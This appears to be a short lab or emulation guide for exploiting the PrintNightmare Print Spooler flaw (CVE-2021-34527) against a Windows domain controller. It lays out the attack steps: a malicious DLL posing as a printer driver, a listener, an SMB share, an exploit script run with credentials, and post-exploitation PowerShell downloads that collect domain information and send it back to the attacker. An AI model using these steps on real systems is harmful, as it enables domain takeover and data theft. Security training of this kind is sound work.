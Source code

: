 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

##Pre-exploitation

**Attacker**
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   ```
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
   ```
   
7. Exploit the vulnerability to the target machine
   Download the python script: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file
   
```console
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>
```

**Target machine**
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the service 
```Powershell
PS C:\Users\Administrator> get-service spooler
PS C:\Users\Administrator> start-service spooler
```
**e.g. replace ```<username>``` with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discover victim DC machine and domain group info, then send them back to attacker listener. 

```powershell
PS Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat
PS Invoke-WebRequest -Uri path/to/export.bat -o export.bat
```


